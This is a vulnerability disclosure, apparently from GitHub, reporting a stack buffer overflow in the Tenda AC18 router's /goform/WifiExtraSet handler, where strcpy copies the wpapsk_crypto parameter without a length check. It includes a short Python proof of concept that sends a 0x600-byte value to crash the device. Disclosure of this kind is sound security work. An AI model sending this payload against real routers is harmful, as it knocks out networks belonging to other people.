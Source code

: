 # Tenda Router AC18 Vulnerability

This vulnerability lies in the `/goform/WifiExtraSet` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `fromSetWirelessRepeat`.

In function `fromSetWirelessRepeat` it reads user provided parameter `wpapsk_crypto` into `victim_buf`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `vuln_buf`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/WifiExtraSet`, the attacker can easily perform a **Deny of Service Attack**.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/WifiExtraSet?"
url += "wl_mode=not_ap&security=wpapsk&wpapsk_key=kkkkkkkk&wpapsk_crypto=" + "s" * 0x600

response = requests.get(url)
```

## Timeline

* 2022-05-07: Report to CVE & CNVD;

## Acknowledge

Credit to [@peanuts](https://github.com/peanuts62) and [@cylin](https://github.com/lcyfrank) from IIE, CAS.
